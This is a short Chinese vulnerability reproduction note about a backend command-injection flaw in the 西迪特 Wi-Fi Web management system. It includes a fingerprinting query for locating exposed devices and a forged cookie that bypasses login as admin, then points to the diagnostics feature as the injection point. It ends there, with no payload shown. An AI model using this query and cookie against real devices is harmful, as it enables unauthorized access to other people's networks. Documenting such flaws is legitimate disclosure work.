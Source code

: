 # 西迪特 Wi-Fi Web管理 jumpto.php 后台命令执行漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## 网络测绘

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](images/202205191841065.png)

通过越权漏洞获取权限，添加Cookie

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

进入后台后，诊断功能点存在命令拼接执行漏洞

![image-20220519184158173](images/202205191841279.png)